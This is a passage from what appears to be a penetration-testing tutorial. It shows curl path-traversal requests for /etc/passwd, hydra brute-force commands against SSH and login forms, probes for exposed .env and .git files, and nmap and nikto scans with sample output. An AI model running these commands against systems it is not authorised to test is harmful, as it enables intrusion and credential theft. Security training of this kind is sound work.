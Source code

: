 ```bash
curl "http://target_ip/file.php?page=../../../etc/passwd"
curl "http://target_ip/file.php?page=....//....//....//etc/passwd"
```

### Configuration Vulnerability Assessment:
```bash
# Default credentials testing
hydra -C /usr/share/seclists/Passwords/Default-Credentials/default-passwords.csv target_ip ssh
hydra -C /usr/share/seclists/Passwords/Default-Credentials/default-passwords.csv target_ip http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid"

# Weak password testing
hydra -l admin -P /usr/share/wordlists/rockyou.txt target_ip ssh
hydra -l admin -P /usr/share/wordlists/rockyou.txt target_ip http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid"

# Misconfigurations testing
curl -I http://target_ip/server-status
curl -I http://target_ip/server-info
curl http://target_ip/.git/config
curl http://target_ip/.env
```

## 🧪 Real Lab Examples

### Example 1: Comprehensive Network Vulnerability Assessment
```bash
# Phase 1: Automated vulnerability scanning
nmap --script vuln 192.168.1.100
# Output:
# PORT     STATE SERVICE
# 22/tcp   open  ssh
# | ssh-hostkey:
# |   ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQ...
# 80/tcp   open  http
# | http-enum:
# |   /admin/: Possible admin folder
# |   /backup/: Backup folder
# 443/tcp  open  https
# | ssl-cert: Subject: commonName=target.local
# | ssl-enum-ciphers:
# |   TLSv1.0:
# |     ciphers:
# |       TLS_RSA_WITH_RC4_128_SHA (rsa 2048) - C
# |       TLS_RSA_WITH_3DES_EDE_CBC_SHA (rsa 2048) - C

# Phase 2: Service-specific vulnerability testing
nikto -h http://192.168.1.100
# Output:
# + Server: Apache/2.4.7 (Ubuntu)
# + The anti-clickjacking X-Frame-Options header is not present.
# + The X-XSS-Protection header is not defined.
# + Uncommon header 'x-ob_mode' found, with contents: 1
# + Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37)
# + /admin/: Admin login page/section found.
```
